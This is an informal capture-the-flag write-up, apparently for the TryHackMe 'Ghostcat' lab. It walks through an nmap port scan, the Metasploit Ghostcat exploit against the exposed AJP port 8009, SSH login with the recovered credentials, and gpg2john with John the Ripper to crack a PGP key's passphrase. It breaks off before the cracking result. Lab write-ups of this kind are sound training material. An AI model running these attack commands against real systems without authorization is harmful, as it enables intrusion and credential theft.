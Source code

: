 THE MACHINE IS GHOSTCAT


For firts thing we run the tool name Nmap: 

	nmap -p- IPMACHINE

There are ports which they are:

	22/tcp   open  ssh
	53/tcp   open  domain
	8009/tcp open  ajp13
	8080/tcp open  http-proxy

we search on internet the information of they, the port 8009  use the protocol AJP(apache jserv protocol) and have an exploit called Ghostcat


For use this exploit we use metasploit tool's

open metasploit

	msfconsole

search the exploit

	search ghostcat

use that 
	
	use 0

set machine where use

	set RHOSTS <IP>

now run
	exploit 


we found the user and the password for ssh 
enter on ssh 
there are two file 

	credential.pgp tryhackme.asc

the file .asc have password for crack it we use john 	
generate the hash of file 

	gpg2john tryhackme.asc > hash.txt

now with jhon crak the pass


